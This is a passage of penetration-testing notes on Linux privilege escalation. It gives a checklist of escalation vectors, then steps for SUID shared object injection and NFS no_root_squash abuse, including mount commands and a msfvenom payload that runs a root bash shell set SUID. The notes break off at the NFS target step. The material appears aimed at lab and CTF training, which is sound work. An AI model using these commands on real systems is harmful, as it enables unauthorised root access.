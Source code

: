 #### Privesc Checklist

* **sudo rights** ([link](https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d))
* **sensitive files & permission misconfiguration** (SSH keys, shadow files)
* **SUID Binaries**
* **Internal Ports**
* **Processes running with root privilege**
* **Cron tabs**
  * Hidden cron process with pspy
* **Mounted filesystems**
* **TMUX session hijacking**
* **Path Hijacking**
* **Process Injection** ([link](https://github.com/nongiach/sudo_inject))
* **Docker PS**
* **Interesting groups** ([link](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe))
  * Wheel
  * Shadow
  * Disk
  * Video
  * Root
  * Docker
  * lxd - ([link](https://www.hackingarticles.in/lxd-privilege-escalation/))
* **Environment variables**
* **bash version < 4.2-048 | 4.4** ([TryHackMe Task 14, 15](https://tryhackme.com/room/linuxprivesc))
* **NFS Misconfiguration**
* **linpeas.sh -a** //all checks

#### SUID Shared Object Injection

1.  Find a SUID binary that looks fishy

    ```bash
    strace /usr/local/bin/fishybinary 2>&1 | grep -iE "open|access|no such file"
    ```
2. Match the shared object that sits in a path where you have write access
3. Create a shared object in the missing SO file name
4. Run the SUID binary

#### NFS Misconfiguration

* **Resource**: [TryHackMe Task 19](https://tryhackme.com/room/linuxprivesc)

1. On Target: `cat /etc/exports` (Look for `no_root_squash`)
2.  On Kali:

    ```bash
    mkdir /tmp/nfs
    mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs

    # Create payload
    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    chmod +xs /tmp/nfs/shell.elf
    ```
3.  On Target:

